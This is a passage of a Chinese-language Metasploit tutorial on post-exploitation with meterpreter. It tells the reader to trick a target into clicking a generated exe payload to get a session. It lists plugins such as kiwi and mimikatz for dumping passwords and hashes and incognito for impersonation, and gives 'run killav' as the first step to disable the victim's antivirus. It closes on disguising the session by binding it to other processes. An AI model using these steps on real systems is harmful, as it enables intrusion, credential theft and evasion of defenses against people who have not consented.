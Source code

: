 我们要想从 `meterpreter 退出到MSF框架`，输入：
```
background
```

## 你只要想方设法让他点击到这个exe即可 接下来交给老爹!
 
将生成的exe文件或者其它类型的payload文件在目标上执行，就可以获得一个meterpreter会话，之后就可以使用msf开展后渗透测试的相关工作。

![](img/2.png)

## 可能会用到的常用代码整理

## load -l

查看所有可以使用的插件
```
espia                --侦测脚本
extapi               --营地 
incognito            --假冒他人身份
kiwi                 --转储密码和哈希
lanattacks           
mimikatz             --猕猴桃 这个太著名可以自己搜
peinjector           --投影仪
powershell           --ps脚本
priv
python
sniffer       --网络嗅探器 数据收集
stdapi               --命名空间的漏洞
unhook               --脱钩
winpmem              
```
https://blog.rapid7.com/2018/09/14/metasploit-wrapup-57/

# 第一件事！！！！！

## 关闭杀毒软件 

拿到目标主机的shell后第一件事就是关闭掉目标主机的杀毒软件，通过命令：
```
run  killav
```

# 伪装要做好--绑定其他进程
